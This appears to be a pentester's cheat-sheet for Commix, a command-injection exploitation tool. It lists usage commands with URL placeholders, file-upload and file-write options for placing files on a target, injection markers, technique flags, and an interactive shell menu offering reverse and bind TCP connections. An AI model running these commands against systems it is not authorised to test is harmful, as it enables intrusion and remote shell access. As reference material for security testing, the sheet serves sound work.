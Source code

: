 # Commix

Search Tag(s): #commix #command-injection

## 1.1 - Interactive Shell

```
commix(os_shell) > ?
Available 'os_shell' options:
 * Type '?' to get all the available options.
 * Type 'back' to move back from the current context.
 * Type 'quit' (or use <Ctrl-C>) to quit commix.
 * Type 'reverse_tcp' to get a reverse TCP connection.
 * Type 'bind_tcp' to set a bind TCP connection.
```

## Usage

`$ commix -u <URL>`

`$ commix -u <URL> --os="<Windows | Unix>"`

`$ commix -u <URL> -v 1`

Note: `--file-upload` is the same as `--file-write` but they work differently

`$ commix -u <URL> --file-upload=/path/to/file --file-dest=/path/to/directory/file`

`$ commix -u <URL> --file-write=/path/to/file --file-dest=/path/to/directory/file`

Injection marker that can be used for URI injection if you discover one.

```
*
INJECT_HERE
```

## Techniques

`$ commix -u <URL> --technique=CETF`

### Results-based

```
[C]lassic
[E]val-based
```

### Blind

```
[T]ime-based
[F]ile-based
```

---
## References

- [Commix Wiki](https://github.com/commixproject/commix/wiki)

- [Hacking Articles: Commix-Command Injection Exploiter (Beginner’s Guide)](https://www.hackingarticles.in/commix-command-injection-exploiter-beginners-guide/)
